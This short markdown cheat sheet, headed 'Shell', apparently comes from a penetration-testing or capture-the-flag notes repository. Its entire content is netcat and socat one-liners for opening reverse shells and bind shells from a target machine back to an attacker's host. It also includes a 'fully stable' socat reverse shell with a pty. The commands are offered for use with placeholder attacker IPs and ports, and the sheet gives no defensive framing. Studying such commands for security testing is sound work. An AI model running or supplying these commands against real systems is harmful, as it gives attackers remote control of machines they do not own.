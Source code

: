 # Shell

**Reverse shell:**

On the attacking machine enter:

`nc -lvnp <port>`

In the SSH shell enter:

`nc <attacker ip> <attacker port> -e /bin/bash`

**Bind shell:**

In the SSH shell enter:

`nc -lvnp <port> -e /bin/bash`

Followed by creating a connection from your attacking machine:

`nc <target ip> <target port>`

**Reverse shell:**

Start by making a simple listener on the attacker machine:

`socat TCP-L:<port> -`

Followed by connecting back from the target machine:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:”bash -li”`

**Bind shell:**

On the target machine run:

`socat TCP-L:<PORT> EXEC:”bash -li”`

Followed by running the following command on the attacker machine:

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**Fully stable reverse shell:**

To get a fully stable reverse shell you can run the following two commands. First one on the attacking machine:

`socat TCP-L:<port> FILE:tty,raw,echo=0`

Followed by the target machine:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:”bash -li”,pty,stderr,sigint,setsid,sane`

